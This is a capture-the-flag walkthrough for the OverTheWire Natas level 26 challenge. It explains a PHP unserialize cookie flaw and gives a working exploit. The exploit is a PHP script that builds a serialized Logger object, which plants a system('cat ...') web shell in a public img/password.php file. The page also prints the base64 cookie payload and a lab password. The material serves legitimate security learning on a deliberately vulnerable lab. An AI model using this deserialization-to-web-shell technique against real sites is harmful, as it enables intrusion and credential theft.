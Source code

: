 # Level 25 - Level 26

```
Username: natas26
Password: 8A506rfIAXbKKk68yJeuTuRq4UfcK70k
URL:      http://natas26.natas.labs.overthewire.org
```

## Overview

This time we got page with four inputs and a link to the source code.

<figure><img src="../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

***

## Source Code Analysis

Let's take a look at the source code.

There is class `Logger`, which basically logs the message to the defined `logFile`.

<figure><img src="../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

I checked the entire source code, but there is no object is created with the class Logger, its not used anywhere.

Next, `the showImage()` function, simply shows the image file. The `drawImage()` function, creates an image witht the data from the `drawFromUserdata()` function.

<figure><img src="../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

The `drawFromUserdata()` function, first checks for the URL parameters x1, x2, y1, y2 and if it exists it generates the image. Next it checks out whether the cookie `drawing` exists, and if so, it base64 decodes the cookie `drawing` and `unserialize` the contents and generate the image using the contents that is decoded. Usage of PHP `unserialize` function on a cookie value is vulnerable, since the cookie can be modified by the user, and if the cookie contains php code snippets, it will be executed. To know more check the following resource:

{% embed url="https://www.php.net/manual/en/function.unserialize.php" %}

The `storeData()` function also utilizes the  PHP `unserialize` function, to read the cookie if present and set's the cookie.

<figure><img src="../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

***

## Exploiting the Vulnerability

We can leverage the above mentioned vulnerability to get the password for the next level. But for that we need a valid php serialized object, which reads the password file and display the output. For this purpose, we can make use of the `Logger()` function that we saw earlier, since we can generate a valid PHP object as it is a class and it writes the output to a file.

### Generating a Valid Cookie

If we are gonna get and store the password in a file, we have to make sure that its publicly accessible. So we have to store the output file in a location that we could access.&#x20;

<figure><img src="../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

From the source code we can see that the image files are located at `img` directory, which is publicly accessible. So we can make use of this directory. I copied the `Logger()` class and created a php script which will create a object with the `Logger()` class, `serialize` it and encode it using base64.

The following PHP script will perform the above mentioned action. I have made a few changes to the `__construct()` function, adding php code snippets that read the contents of the natas27 file and store it in the file that is located at `img/password.php`, which is publicly accessible. From the output of the below script, we will get a valid cookie \[ Ignore the errors generated by the script ].

{% code lineNumbers="true" %}
```php
<?php
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct(){
            // initialise variables
            $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->logFile = "img/password.php";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
    
    $object = new Logger();
    
    echo base64_encode(serialize($object));
?>
```
{% endcode %}

Valid cookie generated by the above script:

{% code overflow="wrap" %}
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNjoiaW1nL3Bhc3N3b3JkLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjUwOiI8P3BocCBzeXN0ZW0oJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjUwOiI8P3BocCBzeXN0ZW0oJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ==
```
{% endcode %}

I captured the request to the web page using burpsuite and modified the value of the cookie `drawing` with the cookie that we generated, which responded with an error, indicating successfull execution of code.

<figure><img src="../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

### Getting the Password

Now, to get the password, check the `img/password.php` file, you can see the credential for the next level.

<figure><img src="../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>
